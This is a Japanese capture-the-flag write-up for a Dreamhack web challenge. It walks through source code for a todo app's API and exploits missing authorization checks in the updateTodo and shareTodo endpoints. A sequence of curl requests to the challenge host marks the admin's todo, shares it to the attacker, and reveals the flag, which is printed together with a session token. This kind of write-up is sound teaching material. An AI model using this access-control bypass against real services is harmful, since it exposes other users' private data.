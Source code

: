 # TODO List 0.0.1:web:372pts

[Download challenge](45471fb1-c720-40c7-9001-c41ed0ec3b24.zip)  

Servers  
Host: host3.dreamhack.games  
Port: 9368/tcp → 8080/tcp  

# Solution
ソースと接続先が渡される。  
アクセスすると、`Login`と`Sign Up`が行え、ログインするとTodoアプリのようだ。  
![site.png](site/site.png)  
完了済みかどうかチェックボックスで管理できる。  
他に特別な機能もなさそうなので、ソースを見る。  
フラグはcreate.sqlよりadminのTodoにあるらしい。  
```sql
~~~
INSERT INTO Users (username, email, password) VALUES (
    'admin',
    'admin@dreamhack.io',
    'helloworld' -- redacted
);
INSERT INTO Todolist (user_id, name) VALUES (
    1,
    'admin'
);

INSERT INTO Todo (todo_list_id, title, description, is_completed) VALUES (
    1,
    'flag',
    'DH{sample_flag}',
    1
);
~~~
```
パスワードが不明なのでadminとしてログインはできないため、別の方法でTodoを盗む必要がある。  
各機能を調査していく。  

**server/api/todolist.js**  
```js
import { verifyToken } from '../utils/auth';
import { openDatabase } from '../utils/db';

export default defineEventHandler(async (event) => {
    try {
        const userData = verifyToken(event.req);
        const db = await openDatabase();
        const todoList = await db.all('SELECT * FROM Todo where todo_list_id=(SELECT id FROM Todolist WHERE Todolist.user_id = ?)', [userData.userId]);

        const sharedList = await db.all('SELECT * FROM TodoShares where user_id= ? ', [userData.userId]);
        for (const shared of sharedList){
            if (shared.permission_type === "owner" || shared.permission_type === "shared")
            todoList.push(await db.get('SELECT * FROM Todo where id = ?',[shared.todo_id]));
        };
        return todoList;
    } catch (error) {
        return createError({
            statusCode: 401,
            statusMessage: 'Unauthorized: ' + error.message
        });
    }
});
```
自身の`user_id`に紐づいているTodoを表示する機能だ。  
怪しい共有機能があるようで、自身に共有されているTodoも表示されている。  

**server/api/shareTodo.js**  
```js
import { readBody, createError } from 'h3';
import { openDatabase } from '../utils/db';

export default defineEventHandler(async (event) => {
    const userData = verifyToken(event.req);
    const db = await openDatabase();
    const body = await readBody(event);
    
    const todo = body;
    try {
        const todo_data = await db.get(
            'SELECT * FROM Todo WHERE id = ?', [todo.id]
        );
        if (todo_data.is_completed === 1) {
            return { message: 'you cannot share already completed todo', id: todo_data.id}
        }

        const result = await db.run(
            `INSERT INTO TodoShares (todo_id, user_id, permission_type) VALUES
            (?, ?, ?)`,
            [todo_data.id, todo.target_id, 'shared']
          );
        return { success: true, message: 'Todo shared successfully', id: result.lastID };
    } catch (error) {
        throw createError({ statusCode: 500, statusMessage: 'Database error: ' + error.message });
    }
});
```
`id`と`target_id`を受け取って、完了したTodoの`id`であれば`target_id`のユーザへ共有する機能だ。  
特別な権限管理はないので、adminのTodoを自身に共有することで盗めそうだ。  
ただし問題点として、adminのTodoは完了状態でないので共有できない。  

**server/api/updateTodo.js**  
```js
import { readBody, createError } from 'h3';
import { openDatabase } from '../utils/db';

export default defineEventHandler(async (event) => {
    const userData = verifyToken(event.req);
    const db = await openDatabase();
    const body = await readBody(event);
    
    const { id, value} = body;
    try {
        const result = await db.run(
            `UPDATE todo
             SET is_completed = ?
             WHERE id = ?`,
            [value, id]
          );
        return { success: true, message: 'Todo updated successfully', id: result.lastID };
    } catch (error) {
        throw createError({ statusCode: 500, statusMessage: 'Database error: ' + error.message });
    }
});
```
Todoの完了状態を更新できる機能だ。  
こちらにも特別な権限管理はないので、adminのTodoを勝手に完了状態にすることができる。  

ここまでの機能を組み合わせて以下のようにadminのTodoを盗むことができるとわかる。  

- /updateTodoでadminのTodoを完了状態にする。  
- /shareTodoでadminのTodoを自身に共有する。  
- /todolistで共有されたTodoを表示し、フラグを取得する。  

以下のように行う。  
```bash
$ curl -X POST 'http://host3.dreamhack.games:9368/api/signup' -H 'Content-Type: application/json' -d '{"username": "satoki", "email":"satoki@example.com", "password":"satoki00"}'
{
  "message": "User registered successfully.",
  "userId": 2
}
$ curl -X POST 'http://host3.dreamhack.games:9368/api/login' -H 'Content-Type: application/json' -d '{"email":"satoki@example.com", "password":"satoki00"}'
{
  "message": "Login successful!",
  "token": "eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJ1c2VySWQiOjIsImVtYWlsIjoic2F0b2tpQGV4YW1wbGUuY29tIiwiaWF0IjoxNzI3NTAxNTI2LCJleHAiOjE3Mjc1MTIzMjZ9.KovD7kIO1RbC6oQvEYXisptwsHsFPJJ-wJ3thHYdDfU"
}
$ curl -X POST 'http://host3.dreamhack.games:9368/api/updateTodo' -H 'Content-Type: application/json' -H 'Authorization: Bearer eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJ1c2VySWQiOjIsImVtYWlsIjoic2F0b2tpQGV4YW1wbGUuY29tIiwiaWF0IjoxNzI3NTAxNTI2LCJleHAiOjE3Mjc1MTIzMjZ9.KovD7kIO1RbC6oQvEYXisptwsHsFPJJ-wJ3thHYdDfU' -d '{"id":1, "value":false}'
{
  "success": true,
  "message": "Todo updated successfully",
  "id": 0
}
$ curl -X POST 'http://host3.dreamhack.games:9368/api/shareTodo' -H 'Content-Type: application/json' -H 'Authorization: Bearer eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJ1c2VySWQiOjIsImVtYWlsIjoic2F0b2tpQGV4YW1wbGUuY29tIiwiaWF0IjoxNzI3NTAxNTI2LCJleHAiOjE3Mjc1MTIzMjZ9.KovD7kIO1RbC6oQvEYXisptwsHsFPJJ-wJ3thHYdDfU' -d '{"id":1, "target_id":2}'
{
  "success": true,
  "message": "Todo shared successfully",
  "id": 1
}
$ curl 'http://host3.dreamhack.games:9368/api/todolist' -H 'Authorization: Bearer eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJ1c2VySWQiOjIsImVtYWlsIjoic2F0b2tpQGV4YW1wbGUuY29tIiwiaWF0IjoxNzI3NTAxNTI2LCJleHAiOjE3Mjc1MTIzMjZ9.KovD7kIO1RbC6oQvEYXisptwsHsFPJJ-wJ3thHYdDfU'
[
  {
    "id": 1,
    "todo_list_id": 1,
    "title": "flag",
    "description": "DH{3447b6a1637d4f3d48b877b8338f44ab8d5dd8f0a3e17a7fea5ec9f147305f96}",
    "is_completed": 0,
    "start_date": null,
    "due_date": null
  }
]
```
flagが得られた。  

## DH{3447b6a1637d4f3d48b877b8338f44ab8d5dd8f0a3e17a7fea5ec9f147305f96}